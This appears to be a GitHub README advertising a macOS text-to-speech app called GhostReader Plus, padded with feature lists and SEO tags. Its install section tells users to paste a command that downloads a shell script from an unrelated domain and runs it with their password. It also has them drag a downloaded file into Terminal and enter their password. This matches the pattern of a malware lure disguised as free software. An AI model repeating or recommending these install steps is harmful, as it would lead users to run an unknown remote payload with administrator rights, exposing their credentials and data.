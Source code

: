 <p align="center">
  <img src="https://i.ibb.co/CKbWM87b/1614529133-ghostreader-logo-optimized.png" alt="GhostReader Plus macOS Banner" />
</p>

<h1 align="center">GhostReader Plus for macOS</h1>

<p align="center">
  🗣️ Convert written text into spoken words with customizable voice control, speech playback, and offline audio export.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ macOS Sonoma, Ventura, Monterey compatible  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/188" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20GHOSTREADER%20PLUS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download GhostReader Plus for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/fVZWpwtF/1614608722-2.jpg" alt="GhostReader Plus Text-to-Speech UI" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is GhostReader Plus?

**GhostReader Plus for macOS** is a text-to-speech utility that reads any written content aloud using macOS system voices and custom speech controls. It’s designed for users who want an offline, privacy-friendly tool to hear documents, articles, or notes — or export them as audio files.

Ideal for writers, learners, accessibility users, or anyone who prefers listening over reading. GhostReader Plus offers enhanced features like pronunciation editor, batch file processing, and audio file export.

All features work offline and are fully optimized for both **Intel** and **Apple Silicon (M1/M2/M3)** chips.

---

## ✅ Why Choose GhostReader Plus?

- 🔊 **Text-to-Speech with Voice Control**  
- 🧠 **Listen to Documents, Emails, or Web Text**  
- 🎧 **Export Spoken Content to Audio Files (AIFF/MP3)**  
- 📝 **Built-in Pronunciation Editor**  
- 🗂️ **Batch Read Multiple Files**  
- 🎚️ **Adjust Speaking Rate & Volume**  
- 🔒 **100% Offline Operation – No Internet Needed**  
- 🍎 **macOS Native with M1/M2/M3 Support**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/9kHjSKZB/1614608768-1.jpg" alt="Pronunciation Editor Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/0jdvD62R/1614608789-3.jpg" alt="GhostReader Audio Export Preview" />
</p>

---

## 🚀 Key Features

- Convert text to spoken voice using system voices  
- Export audio for podcasts, study, or narration  
- Customize voice, speed, volume, and pitch  
- Highlight text as it’s spoken  
- Advanced pronunciation editing  
- Drag & drop documents or text blocks  
- Clean UI with dark mode support  
- Offline-only for full data privacy  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow GhostReader Plus under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Text+to+Speech+Utility-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Custom+Voice+Playback+Export-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ GhostReader – Let Your Text Speak

Thanks for using **GhostReader Plus for macOS**.  
Your words. Your voice. Anywhere.

---

## 🧭 Usage Context

This utility is designed for local, offline text-to-speech playback and audio export.  
It does not require online connectivity or cloud syncing.  

Intended for personal use, study, voiceover prep, or accessibility support.  
Not affiliated with Apple Inc.

---

## 🔍 Tags

```text
ghostreader plus for mac download, ghostreader mac text to speech utility, offline tts macbook ghostreader app, convert text to audio file macos tool, pronunciation editor ghostreader plus mac, native voice reader mac with export, speech synthesis software for mac m1, apple silicon tts tool for macos, read aloud text documents ghostreader, mp3 aiff voice export app mac ghostreader, macbook text reader accessibility tool, batch read and export voice mac ghostreader, customize voice speed macos tts tool, offline narration export utility mac, ghostreader plus native speech control mac
